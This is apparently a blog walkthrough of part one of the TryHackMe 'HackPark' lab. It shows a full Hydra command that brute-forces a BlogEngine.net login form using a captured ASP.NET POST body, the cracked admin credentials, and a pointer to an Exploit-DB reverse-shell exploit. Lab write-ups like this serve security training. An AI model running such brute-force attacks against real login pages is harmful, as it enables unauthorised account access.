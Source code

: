 ```yaml
---
title: THM Room Walkthrough - HackPark
date: '2025-01-23 19:34:56 +0000'
author: b3rdma
categories:
  - Hacking
  - Try Hack Me
tags:
  - hydra
  - enumeration
  - exploit-db
  - burp suite
description: Part one of the THM room HackPark walkthrough.
---
```

# Part 1

## Contents

<!-- toc -->

- [Task 1 - Deploy the Machine](#task-1---deploy-the-machine)
  * [To scan or not to scan...](#to-scan-or-not-to-scan)
  * [Reverse-Image Search](#reverse-image-search)
- [Task 2 - Using Hydra to Brute-Force a login](#task-2---using-hydra-to-brute-force-a-login)
  * [BurpSuite to the rescue](#burpsuite-to-the-rescue)
- [Task 3 - Compromise the machine](#task-3---compromise-the-machine)
- [Task 4 - Windows Privilege Escalation](#task-4---windows-privilege-escalation)

<!-- tocstop -->

## Task 1 - Deploy the Machine

### To scan or not to scan...

Simple first task here; deploy the machine and answer a question about the
clown. The question asks who is the clown on the homepage so I took a 'gamble'
and entered the target ip address direct in to the browser _without_ performing
an `nmap` scan first.

### Reverse-Image Search

It paid off as I went straight to homepage of the site and saw the clown from
the **IT** film. To answer the question of who he is, I saved the image and did
a google reverse-image search and found the name is _Pennywise_; I should really
have known that but it's been a while since I seen the film and it's good
practice to do a reverse image search. On to task 2.

## Task 2 - Using Hydra to Brute-Force a login

I had a few issues running the Hydra command as it's been a while since I used
it and there were no entries in the results from `history | rg hydra`. First few
commands were along the lines of:

```bash
hydra -l admin -P rockyou.txt 10.10.5.178 http-post-form
"/Account/login.aspx:username=^USER^&password=^PASS^:F=AdminStatus"
```

If the fail part of the above command (`F=AdminStatus`) is not accurate, Hydra
will return a default of 16 correct passwords, all of which are actually
incorrect. This is because Hydra is not seeing the failed login condition and
therefore stops at 16 '_successful_' attempts.

### BurpSuite to the rescue

I cracked open BurpSuite and enabled the proxy intercept. Going to the login
page and adding _admin_ and _password_ to the fields, clicking the login button
and seeing the actual submit data, I was not surprised that Hydra was having
trouble. So, the actual data being sent in the POST request is as follows:

```html
__VIEWSTATE=WOnPg3iFnDFsh2GWZ0Bg2xnaOwQfKyJ9XMttcsvYjKp95LUHYTGIT%2Bu7WMtLtiVssQYi0Qj%2FvEQXZukNxlR45PVnKkEXe83uwXAgnSxUIw4tHkOPl03E%2BBjrh2evMXJ4on5bFBpTvSGGwQAawZUHWIhzJirukfvmZSysNFuxLCLxnngnEvkHc0aorbzi1n4Wj108uXc%2BWeryeW4vrfpXhnTcC5tISIGhvT1iTEnWkPC4sVEbkaBPmW3Scnz1B8HS7RaX%2FiMBqK20mK9b5w28VQWogog2cariWCJKhPq5rxFwFwGlkg6qF4TVob4TYggPjTazciOcpFeiop2y2SyT3QdaP%2B%2BIOCPY%2BRf4w9peYS1o8VT9&__EVENTVALIDATION=1mN%2BUGQZVTLoa7qjhhisVpdMl0tPwQyM7T6L08nsPNwbJ%2FotrHfQ4wA1Lh%2BvTtpfBGwPVp1evCEmyFFKzZ0St1lyriBj9zhg9uyX9OOKG6AXp%2FUp6OayJoPIva3S8ATrTWCw6D06wEX6oIJtXc3cAlQjhKJDLDLXhwlh368sfqqYYiYK&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login
failed
```

It is this huge amount of code that needs to be included in the Hydra command.
This is typically something along the lines of
`unsername=admin&password=password123` but not in this case!
Note in the above data I have already replaced the `Password=password` with the
Hydra version, `Password=^PASS^`. The full Hydra command that produces the
result is:

```bash
hydra -l admin -P rockyou.txt 10.10.5.178 http-post-form
"/Account/login.aspx:__VIEWSTATE=WOnPg3iFnDFsh2GWZ0Bg2xnaOwQfKyJ9XMttcsvYjKp95LUHYTGIT%2Bu7WMtLtiVssQYi0Qj%2FvEQXZukNxlR45PVnKkEXe83uwXAgnSxUIw4tHkOPl03E%2BBjrh2evMXJ4on5bFBpTvSGGwQAawZUHWIhzJirukfvmZSysNFuxLCLxnngnEvkHc0aorbzi1n4Wj108uXc%2BWeryeW4vrfpXhnTcC5tISIGhvT1iTEnWkPC4sVEbkaBPmW3Scnz1B8HS7RaX%2FiMBqK20mK9b5w28VQWogog2cariWCJKhPq5rxFwFwGlkg6qF4TVob4TYggPjTazciOcpFeiop2y2SyT3QdaP%2B%2BIOCPY%2BRf4w9peYS1o8VT9&__EVENTVALIDATION=1mN%2BUGQZVTLoa7qjhhisVpdMl0tPwQyM7T6L08nsPNwbJ%2FotrHfQ4wA1Lh%2BvTtpfBGwPVp1evCEmyFFKzZ0St1lyriBj9zhg9uyX9OOKG6AXp%2FUp6OayJoPIva3S8ATrTWCw6D06wEX6oIJtXc3cAlQjhKJDLDLXhwlh368sfqqYYiYK&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login
failed"
```

Quite the mouthful eh.

Success with Hydra informing us that `login: admin` and `password: 1qaz2wsx` are
working. On to Task 3.

## Task 3 - Compromise the machine

First question is found after logging in and clicking on the about link on the
left. Too easy.

In this section, the answer to question 3 is also there and is labeled
_Identity:_ so not hard to find either.

> Technically speaking, we're supposed to answer this question _after_ we get
> access to the machine and not from this part. I think it was just lucky that
> the answer was displayed on the about page.
> {: .prompt-warning}

The answer to question 2 is found by searching for '_blogengine.net_' on
[Exploit-DB](https://www.exploit-db.com/exploits/46353) and making sure you find
the exploit for the version of blogengine.net as applicable.

Although that is all the questions answered for Task 3, we still need to run the
exploit on the machine to get ourselves a reverse shell.

That is Task 3 complete, now on to Task 4. I will run the exploit and start Task
4 soon.

## Task 4 - Windows Privilege Escalation

To be continued in Part 2 when I get the time to spin up the room again. Watch
this space...

